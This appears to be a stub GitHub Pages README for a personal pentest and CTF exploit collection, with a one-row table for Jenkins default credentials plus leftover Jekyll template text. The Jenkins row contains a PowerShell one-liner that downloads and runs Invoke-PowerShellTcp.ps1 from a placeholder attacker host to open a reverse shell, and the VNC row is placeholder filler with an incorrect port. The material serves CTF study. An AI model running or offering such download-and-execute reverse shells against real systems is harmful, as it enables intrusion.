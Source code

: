 ## Pentest make easy

The purspose of this site is to make the Penetration testing and Privilege escation make easy. There are several exploits and various writeup avilable. But when it is needed its very difficult to find out the exact exploit and the writeup.

In this site I am attempting to collect most of the common exploits that appear in CTF and other exinvornments.


### Random Exploit collection

Here I am collectign some of the random exploits and their exploitation technqiues. Later I will categorised and group them to each group.

| Application Name | Vulnerability | Scenario | Working Exploits | Reverse Shell | Writeup and Reference |

| Jenkins  | default username and pass |Running in Windows | Nishang to gain initial access. | Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port|https://executeatwill.com/2020/04/01/TryHackMe-Alfred-Walkthrough/|
| VNC  | Content Cell  |running in port 3389 and can be exploited using password lookup|


For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/dayaramb/dayaramb.github.io/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://help.github.com/categories/github-pages-basics/) or [contact support](https://github.com/contact) and we’ll help you sort it out.
